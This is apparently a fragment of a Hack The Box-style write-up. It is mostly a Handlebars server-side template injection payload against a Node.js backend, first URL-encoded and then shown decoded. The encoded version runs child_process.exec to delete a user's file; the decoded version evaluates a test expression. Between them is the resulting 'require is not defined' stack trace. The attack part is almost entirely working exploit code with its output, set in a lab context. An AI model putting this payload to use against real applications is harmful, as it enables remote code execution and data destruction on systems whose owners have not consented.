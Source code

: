 ```jsx
%7b%7b%23%77%69%74%68%20%22%73%22%20%61%73%20%7c%73%74%72%69%6e%67%7c%7d%7d%0d%0a%20%20%7b%7b%23%77%69%74%68%20%22%65%22%7d%7d%0d%0a%20%20%20%20%7b%7b%23%77%69%74%68%20%73%70%6c%69%74%20%61%73%20%7c%63%6f%6e%73%6c%69%73%74%7c%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%28%6c%6f%6f%6b%75%70%20%73%74%72%69%6e%67%2e%73%75%62%20%22%63%6f%6e%73%74%72%75%63%74%6f%72%22%29%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%73%74%72%69%6e%67%2e%73%70%6c%69%74%20%61%73%20%7c%63%6f%64%65%6c%69%73%74%7c%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%22%72%65%74%75%72%6e%20%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%28%27%72%6d%20%2f%68%6f%6d%65%2f%63%61%72%6c%6f%73%2f%6d%6f%72%61%6c%65%2e%74%78%74%27%29%3b%22%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%23%65%61%63%68%20%63%6f%6e%73%6c%69%73%74%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%28%73%74%72%69%6e%67%2e%73%75%62%2e%61%70%70%6c%79%20%30%20%63%6f%64%65%6c%69%73%74%29%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%2f%65%61%63%68%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%7b%7b%2f%77%69%74%68%7d%7d
```

丟過去後出現 require is not defined，why ?

![Untitled](HTB%20writeu%20673ee/Untitled%2041.png)

```jsx
eferenceError: require is not defined
    at Function.eval (eval at <anonymous> (eval at createFunctionContext (/root/Backend/node_modules/handlebars/dist/cjs/handlebars/compiler/javascript-compiler.js:254:23)), <anonymous>:3:1)
    at Function.<anonymous> (/root/Backend/node_modules/handlebars/dist/cjs/handlebars/helpers/with.js:10:25)
    at eval (eval at createFunctionContext (/root/Backend/node_modules/handlebars/dist/cjs/handlebars/compiler/javascript-compiler.js:254:23), <anonymous>:6:34)
    at prog (/root/Backend/node_modules/handlebars/dist/cjs/handlebars/runtime.js:221:12)
    at execIteration (/root/Backend/node_modules/handlebars/dist/cjs/handlebars/helpers/each.js:51:19)
    at Array.<anonymous> (/root/Backend/node_modules/handlebars/dist/cjs/handlebars/helpers/each.js:61:13)
    at eval (eval at createFunctionContext (/root/Backend/node_modules/handlebars/dist/cjs/handlebars/compiler/javascript-compiler.js:254:23), <anonymous>:12:31)
    at prog (/root/Backend/node_modules/handlebars/dist/cjs/handlebars/runtime.js:221:12)
    at Array.<anonymous> (/root/Backend/node_modules/handlebars/dist/cjs/handlebars/helpers/with.js:22:14)
    at eval (eval at createFunctionContext (/root/Backend/node_modules/handlebars/dist/cjs/handlebars/compiler/javascript-compiler.js:254:23), <anonymous>:12:34)
```

```jsx
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return 7*7"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```